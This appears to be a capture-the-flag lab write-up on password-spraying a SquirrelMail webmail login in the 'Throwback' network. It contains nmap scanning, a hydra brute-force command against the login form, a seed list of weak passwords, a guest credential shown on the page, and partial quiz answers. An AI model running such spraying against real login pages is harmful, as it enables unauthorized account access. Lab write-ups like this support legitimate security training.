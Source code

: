 #  Wait, just you mean just one this time?

With my smb analysis leading to the conclusion that the HumpreyW account is a backdoor we return to guided path once again. Accoring to the instruction from the team are going to do some crediental spraying. Firstly a nice awk on the usernames from the contacts:

![awk](Screenshots/wait-usernames-awk.png)

Now just `> usersnames.txt` and remove noreply, HumphreyW, Mr Peanutbutter and Bojackhorseman to preventing wasting a much time on known and "real-people" accounts. One quick curl command later to get login parametres:
```bash
curl http://10.200.102.232/src/login.php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en_US" lang="en_US">
    <head>
<title>Throwback Hacks - Login</title>
    <script type="text/javascript" language="JavaScript">
<!--
if (self != top) { try { if (document.domain != top.document.domain) { throw "Clickjacking security violation! Please log out immediately!"; /* this code should never execute - exception should already have been thrown since it's a security violation in this case to even try to access top.document.domain (but it's left here just to be extra safe) */ } } catch (e) { self.location = "/src/signout.php"; top.location = "/src/signout.php" } }
// -->
</script>
<meta name="robots" content="noindex,nofollow" />                                                              
<link rel="shortcut icon" href="/favicon.ico" /><link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/options.css"  />                                                                         
<link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/default.css"  />          
<link media="screen" rel="stylesheet" type="text/css" href="/src/style.php?"  />                               
<link media="print" title="printerfriendly" rel="stylesheet" type="text/css" href="/css/print.css"  />         
<script type="text/javascript">                                                                                
<!--                                                                                                           
  var alreadyFocused = false;
  function squirrelmail_loginpage_onload() {
    if (alreadyFocused) return;
    var textElements = 0; var i = 0;
    for (i = 0; i < document.login_form.elements.length; i++) {
      if (document.login_form.elements[i].type == "text" || document.login_form.elements[i].type == "password") {
        textElements++;
        if (textElements == 1) {
          document.login_form.elements[i].focus();
          break;
        }
      }
    }
  }
// -->
</script>
<!--[if IE 6]>
<style type="text/css">
/* avoid stupid IE6 bug with frames and scrollbars */
body {
    width: expression(document.documentElement.clientWidth - 30);
}
</style>
<![endif]-->
</head>


<body onload="squirrelmail_loginpage_onload()">
<form name="login_form" id="login_form" action="redirect.php" method="post" onsubmit="document.login_form.js_autodetect_results.value=1">
<div id="sqm_login">
<table cellspacing="0">
 <tr>
  <td class="sqm_loginTop" colspan="2">
   <img src="/pics/throwback.png" class="sqm_loginImage" alt="Throwback Hacks Logo" width="308" height="111" /><br /><br />
Guests who require access to an email can use the following: <br />
tbhguest:WelcomeTBH1!<br /><br />  </td>
 </tr>
 <tr>
  <td class="sqm_loginOrgName" colspan="2">
   Throwback Hacks Login  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="login_username">
   Name:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="text" name="login_username" value="" id="login_username" onfocus="alreadyFocused=true;"  />
  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="secretkey">
   Password:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="password" name="secretkey" value="" id="secretkey" onfocus="alreadyFocused=true;"  />
   <input type="hidden" name="js_autodetect_results" value="0" class="sqmhiddenfield" id="js_autodetect_results" /><input type="hidden" name="just_logged_in" value="1" class="sqmhiddenfield" id="just_logged_in" />  </td>
 </tr>
  <tr>
  <td class="sqm_loginSubmit" colspan="2">
   <input type="submit" value="Login" />
  </td>
 </tr>
</table>
</div>
</form>
<!-- end of generated html -->
</body>
</html>
```

![burplogin](Screenshots/wait-burp-login.png)

From this screenshot:

```bash
login_username=^USER^&secretkey=^PASS&js_autodetect_results=1&just_logged_in=1
```

On the list of tools to try out brutespray and  is just a nice `apt-get install brutespray` away. I requires Nmap output so I'll rerun:
`nmap -sV -sC -oA throwback -p- 10.200.0-255.0/24 --min-rate 5000` with -oA for outputing all formats and also a range over the 0-255, third octet, which did not do the first time. It will take longer but that is fine for reconing more indepth in the background while I setup password spraying in medusa and hydra. Don't forget to 	`gzip -d /usr/share/wordlists/rockyou.txt.gz` the rockyou list on the Kali VM.

```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $MACHINE_IP http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS:F=incorrect' 
```

Consider that bruteforcing in this way is not very smart and the task is hinting at making a custom password list based on a set of strings:
```txt
Summer2020
Management2020
Management2018
Password2020
Throwback2020
Password123
```

I decided to use mentalist password permutation, warning getting this to work on some mahcines has  been a nightmare, especially the THM VMs, when a certain CTF requires  a wordlist > GB!

![mentalist-one](Screenshots/mentalist-wl-one.png)

## Answers

What is the username parameter in the POST request?  
```{toggle}
login_username
```
What is the password parameter in the POST request?  
```{toggle}
secretkey
```
What username found with hydra starts with an M?  
```{toggle}
```
What is the password found with hydra?
```{toggle}
```